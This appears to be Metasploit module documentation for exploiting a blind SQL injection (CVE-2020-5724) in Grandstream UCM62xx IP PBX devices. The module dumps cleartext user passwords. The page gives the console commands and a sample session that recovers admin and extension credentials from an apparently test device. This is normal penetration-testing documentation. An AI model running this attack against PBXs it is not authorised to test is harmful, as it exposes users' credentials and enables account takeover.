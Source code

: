 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the users table. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attacker can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX firmware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of valid credentials for the target device.

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.20.20

```
msf6 > use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > show options

Module options (auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.9         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8089             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.20.20
[*] Found the following username and password: admin - cheesed00dle
[*] Found the following username and password: 1000 - gZ15S8O8U5S72oli
[*] Found the following username and password: 1001 - qK6uRxwC
[*] Found the following username and password: 1002 - aP9ux515W7p5U
[*] Found the following username and password: 1003 - pM6mo!E8u37k
[*] Found the following username and password: 1004 - mC7N68dm8h
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) >
```
